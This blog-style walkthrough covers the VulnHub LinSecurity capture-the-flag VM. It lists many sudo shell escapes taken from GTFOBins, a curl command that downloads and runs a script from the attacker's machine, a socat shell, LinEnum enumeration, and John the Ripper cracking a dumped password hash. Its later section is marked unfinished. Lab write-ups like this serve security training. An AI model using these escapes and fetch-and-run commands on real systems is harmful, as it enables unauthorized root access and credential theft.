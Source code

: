 ```yaml
---
layout: post-detail
title: CTF Linsecurity
date: 2018-10-28
categories: CTF
description: Walkthrough on the CTF LinSecurity iso at https://www.vulnhub.com/entry/linsecurity-1,244/
img-url: ''
comments: true
---
```


# Iso 

Get the ISO at https://www.vulnhub.com/entry/linsecurity-1,244/

# Target

    $ nmap -sS 192.168.1.0

```txt
Nmap scan report for 192.168.1.14
22/tcp   open  ssh
111/tcp  open  rpcbind
2049/tcp open  nfs
```

There is no web server, it change. A Quick TCP scan.

    $ sudo nmap -sC -sV -vv -oA quick 192.168.1.14

```txt
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4
111/tcp  open  rpcbind syn-ack ttl 64 2-4 (RPC #100000)
2049/tcp open  nfs_acl syn-ack ttl 64 3 (RPC #100227)
```

At [vulnhub](https://www.vulnhub.com/entry/linsecurity-1,244/), we have a message to start:

```txt
To get started you can log onto the host with the credentials: bob/secret
```

Let's connect to ssh:

    $ ssh bob@192.168.1.14

```txt

██╗     ██╗███╗   ██╗   ███████╗███████╗ ██████╗██╗   ██╗██████╗ ██╗████████╗██╗   ██╗
██║     ██║████╗  ██║   ██╔════╝██╔════╝██╔════╝██║   ██║██╔══██╗██║╚══██╔══╝╚██╗ ██╔╝
██║     ██║██╔██╗ ██║   ███████╗█████╗  ██║     ██║   ██║██████╔╝██║   ██║    ╚████╔╝
██║     ██║██║╚██╗██║   ╚════██║██╔══╝  ██║     ██║   ██║██╔══██╗██║   ██║     ╚██╔╝
███████╗██║██║ ╚████║██╗███████║███████╗╚██████╗╚██████╔╝██║  ██║██║   ██║      ██║
╚══════╝╚═╝╚═╝  ╚═══╝╚═╝╚══════╝╚══════╝ ╚═════╝ ╚═════╝ ╚═╝  ╚═╝╚═╝   ╚═╝      ╚═╝
Welcome to lin.security | https://in.security | version 1.0
```

Ok, so we are connect as bob, let's look at the /home
 
     $ ls /home
     bob peter susan

We found a `.secret` file in susan directory:

    $ ls -la /home/susan
    $ cat /home/susan/.secret
    MySuperS3cretValue

Check sudo perm:

    $ sudo -l
    [sudo] password for bob: secret

bob can run:

```txt
User bob may run the following commands on linsecurity:
    (ALL) /bin/ash, /usr/bin/awk, /bin/bash, /bin/sh,
        /bin/csh, /usr/bin/curl, /bin/dash, /bin/ed,
        /usr/bin/env, /usr/bin/expect, /usr/bin/find,
        /usr/bin/ftp, /usr/bin/less, /usr/bin/man,
        /bin/more, /usr/bin/scp, /usr/bin/socat,
        /usr/bin/ssh, /usr/bin/vi, /usr/bin/zsh,
        /usr/bin/pico, /usr/bin/rvim, /usr/bin/perl,
        /usr/bin/tclsh, /usr/bin/git, /usr/bin/script,
        /usr/bin/scp
```

After found [gtfobins](https://gtfobins.github.io/), we'll try theses commands:

+ ash : sudo ash
+ awk : sudo awk 'BEGIN {system("/bin/sh")}'
+ bash : sudo bash
+ sh : sudo sh
+ csh : sudo csh
+ dash : sudo dash
+ ed : sudo ed (**and after**) !/bin/sh
+ env : sudo env /bin/sh
+ expect : sudo expect -c 'spawn /bin/sh;interact'
+ find : sudo find . -exec /bin/sh \; -quit
+ ftp : sudo ftp (**and after**) !/bin/sh
+ less : sudo less /etc/profile (**and after**) !/bin/sh
+ man : sudo man man (**and after (in the man)**) !/bin/sh
+ more : sudo more /etc/shadow (**and after**) !/bin/sh
+ scp : TF=$(mktemp); echo 'sh 0<&2 1>&2' > $TF; chmod +x "$TF"; sudo scp -S $TF x y:
+ socat : 
+ ssh : sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
+ vi : sudo vi -c ':!/bin/sh'
+ zsh : sudo zsh
+ pico : TERM=xterm; TF=$(mktemp); echo 'exec sh' > $TF; chmod +x $TF; sudo pico -s $TF /etc/hosts (**and after**) Ctrl+T
+ rvim :  
+ perl : sudo perl -e 'exec "/bin/sh";'
+ tclsh : sudo tclsh (**and after**) exec /bin/sh <@stdin >@stdout 2>@stderr
+ git : sudo git help status (**and after**) !/bin/sh 
+ script : sudo script -c '/bin/sh'

Other commands who need more step:

### curl

curl need two pc to work, we can use the perl method above in a script.  
On your pc, write the `shell.sh`:

```sh
cat >> shell.sh << EOF 
sudo perl -e 'exec "/bin/sh";'
EOF
```
    $ python2.7 -m SimpleHTTPServer 4444
    
On linsecurity:

    $ sh <(curl 192.168.1.56:4444/shell.sh)

### socat

We can write a little script like this:

```sh
cat >> socat.sh << EOF 
sudo socat TCP-LISTEN:9999,reuseaddr,fork EXEC:sh,pty,stderr,setsid,sigint,sane &
socat FILE:$(tty),raw,echo=0 TCP:127.0.0.1:9999
EOF 
```
And execute:

    $ sudo sh ./socat.sh

Voila, we have run all commands.

The content bellow is not finished, i explore all other way :)
---
 We can connect as bob and susan, return to bob and chec peter file:

    $ su bob
    $ sudo find / -type f -user peter 2>/dev/null

```txt
/lib/systemd/system/debug.service
```
    $ ls -l /lib/systemd/system/debug.service
    -rw-r--r-- 1 peter root 205 Jul  9 19:56 /lib/systemd/system/debug.service

It should be the final file to gain the root privilege ! 

# LinEnum.sh

    $ cd /tmp
    $ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
    $ sudo sh LinEnum.sh

I've cut some parts:

```sh 
-e [-] Kernel information (continued):
Linux version 4.15.0-23-generic (buildd@lgw01-amd64-055) (gcc version 7.3.0 (Ubuntu 7.3.0-16ubuntu3)) #25-Ubuntu SMP Wed May 23 18:02:16 UTC 2018
-e

-e [-] Contents of /etc/passwd:
insecurity:AzER3pBZh6WZE:0:0::/:/bin/sh

-e [-] Super user account(s):
root
insecurity
-e

-e [-] Root is allowed to login via SSH:
PermitRootLogin yes
-e

-e [-] NFS config details:
/home/peter *(rw)
-e 

-e [+] Looks like we're hosting Docker:
Docker version 18.03.1-ce, build 9ee9f40
-e
```
I use `johntheripper` to crack the hash under `/etc/passwd`:

    $ vim shadow
    insecurity:AzER3pBZh6WZE:0:0::/:/bin/sh
    :wq

    $ /usr/sbin/john shadow
    Loaded 1 password hash (Traditional DES [128/128 BS SSE2-16])
